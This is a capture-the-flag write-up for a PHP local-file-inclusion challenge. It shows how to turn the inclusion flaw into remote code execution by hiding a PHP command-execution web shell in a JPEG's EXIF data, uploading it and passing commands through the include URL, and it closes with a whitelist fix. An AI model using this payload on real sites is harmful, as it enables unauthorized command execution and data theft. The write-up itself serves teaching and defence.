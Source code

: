 
# Writeup

Website = http://lfi.hax1.allesctf.net:8081/

When playing with the website, one notices that the website suffers a LFI as the title suggests. On top of that you are able to upload images and know where these are saved on the server.

To exploit this, you can escalate the LFI into a remote code execution vuln.
To do this you can hide PHP code in the exif section of a JPEG image.
Hiding php code in JPEG:
```
exiftool -DocumentName="<h1>FC3<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" im.jpg
```
Renaming the image:
```
mv im.jpg im.php.jpg
```
Now this image can simply be uploaded and used to execute commands on the server by accessing the following link:
```
http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/<imagename>&cmd=<command>
```
After executing the ***ls*** command, you find out that a flag.php file exists, which can be looked at by executing ***cat flag.php***. The flag can then be seen in burp.
# Prevention
To prevent this kind of exploit, a whitelist can be put into place to only allow certain files to be included. In this case the whtelist should consist of ***index.php***, ***upload.php*** and ***view.php***. 
